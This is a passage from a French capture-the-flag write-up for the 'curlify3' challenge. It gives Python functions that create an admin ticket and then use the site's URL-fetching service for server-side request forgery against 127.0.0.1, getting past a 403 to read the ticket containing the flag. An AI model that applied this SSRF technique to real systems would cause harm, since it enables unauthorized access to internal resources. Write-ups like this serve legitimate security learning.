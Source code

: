 Mais étant donné que les tickets créés se suppriment au bout de 15 seconds on préférera lier cette partie de l'exploitation dans notre script python:
```python
def ask_for_a_task(session):
    url = "http://curlify3.chall.malicecyber.com/admin_panel/task.php"
    rep = session.post(url=url, data={'author':'admin', 'assignee':'admin', 'type':'bug', 'description':'nice description'})
    return rep.text
```
Et hop plus qu'à aller le récupérer ;)

<div>
    <img src="assets/Capture_7.PNG", style="max-width:150%;margin-left: 50%;transform: translateX(-50%);">
</div>

### Obtention du ticket contenant le flag

La dernière carabistouille proposée par ce challenge était le fait que les endpoints contenant les tickets renvoyaient un `403` pour les requêtes venant de l'extérieur. Pour régler cela il nous faut juste utiliser une dernière fois le service `curlify` pour envoyer le serveur chercher let ticket pour nous:
```python
def search_for_task_file(session, filenum):
    url = "http://curlify3.chall.malicecyber.com/index.php"
    payload = "http://127.0.0.1/admin_panel/tasks/task_%s.txt" % filenum
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
    return rep.text
```
Et voilà!
